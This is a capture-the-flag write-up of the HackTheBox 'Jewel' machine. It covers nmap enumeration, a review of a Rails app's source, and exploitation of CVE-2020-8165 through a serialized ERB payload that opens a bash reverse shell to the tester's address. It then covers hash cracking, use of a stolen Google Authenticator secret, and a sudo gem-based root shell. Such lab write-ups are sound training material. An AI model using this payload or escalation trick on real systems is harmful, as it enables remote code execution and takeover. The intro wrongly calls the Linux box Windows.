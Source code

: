 ```yaml
---
title: Jewel
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-01-11 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, Ruby, Git Abuse, Source Code Review, Google Authenticator]
math: true
mermaid: true
image:
  src: /assets/images/2022-03-07-20-47-49.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Jewel is a medium Windows box. It's main part is Source Code Review.**
# ENUMERATION

## NMAP

Let's start NMAP:

```
		Nmap scan report for 10.10.10.211
		Host is up (0.040s latency).
		Not shown: 997 filtered ports
		PORT     STATE SERVICE VERSION
		22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
		| ssh-hostkey: 
		|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
		|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
		|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
		8000/tcp open  http    Apache httpd 2.4.38
		|_http-generator: gitweb/2.20.1 git/2.20.1
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		| http-open-proxy: Potentially OPEN proxy.
		|_Methods supported:CONNECTION
		|_http-server-header: Apache/2.4.38 (Debian)
		| http-title: 10.10.10.211 Git
		|_Requested resource was http://10.10.10.211:8000/gitweb/
		8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
		| http-methods: 
		|_  Supported Methods: HEAD POST OPTIONS
		|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
		|_http-title: BL0G!
		Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can seethat host's name is jewel.htb which can be put into the /etc/hosts file. Apart from that there are two WebServices running

## WebServer (manual Enum)

On port 8000 there is gitweb running that isn't vulnerable but it enables us to take a peak into the source code from the webservice running on port 8080.

Checking the bd.sql there are some usernames/passwords from potential users.

![](/assets/images/image (187).png)

Bruteforcing didn't work against rockyou.txt.

Lets check the Gemfile:

![](/assets/images/image (202).png)

Checking the Versions in Gemfile of Ruby and Rails revealed that Rails are running older vulnerable version (5.2.2.1) and there is PoC already written: [https://github.com/masahiro331/CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165)

{% embed url="https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c?pli=1" %}



![](/assets/images/image (203).png)

Checking the source code, raw user input is allowed and will be parsed...

![](/assets/images/image (204).png)

Checking the source code, vulnerable code is present in Update function.

```
  32   def update
  33     @user = User.find(params[:id])
  34     if @user && @user == current_user
  35       cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
  36       cache.delete("username_#{session[:user_id]}")
  37       @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
  38       if @user.update(user_params)
  39         flash[:success] = "Your account was updated successfully"
  40         redirect_to articles_path
  41       else
  42         cache.delete("username_#{session[:user_id]}")
  43         render 'edit'
  44       end
  45     else
  46       flash[:danger] = "Not authorized"
  47       redirect_to articles_path
  48     end
  49   end
```

So we can exploit the application running on port 8080. So let's do that next.

# EXPLOITATION

## RAILS (Vulnerable to RCE - CVE-2020-8165)

Following exploit will be used: [https://github.com/masahiro331/CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165)

We need to register, login and change the username. Fetching the request in Burp:

![](/assets/images/image (205).png)

Create payload using ruby - i used version 2.7.2 but i had to run "bundle install" first

```
$ bundle exec rails console

irb(main):> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.10/9999 0>&1"`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):>
irb(main):> puts "Payload"
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)
```

Put the payload that was printed by the script into username. (im not sure if it is better to do this in repeater):

![](/assets/images/image (206).png)

If everything has been done correctly reverse shell should pop.

![](/assets/images/image (207).png)

# PRIVILEGE ESCALATION

## Enumeration

After shell was popped. i fired up linpeas.sh. Long story short -there was interesting file found in /var/backups dump\_2020-08-27.sql

Two new hashes for bill and jennifer users will be revealed and one of that can be bruteforced (hashcat mode 3200 (bcrypt)):

![](/assets/images/image (188).png)

Bill's credentials work with SSH.

## Google Authenticator

After logging in with bill .google\_authenticator can be found in its home directory.&#x20;

```
bill@jewel:~$ cat .google_authenticator
2UQI3R52WFCLE6JTLDCSJYMJH4
```

That string 2UQ... is a  secret that is being used to issue one time password.

I installed the authenticator into the chrome and the code was issued (i live in EU but if you live in other places you may need to adjust the time!)

![](/assets/images/image (189).png)

So i was able to run _sudo gem open -e "/bin/sh -c /bin/sh" rdoc_ and get root privileges

![](/assets/images/image (191).png)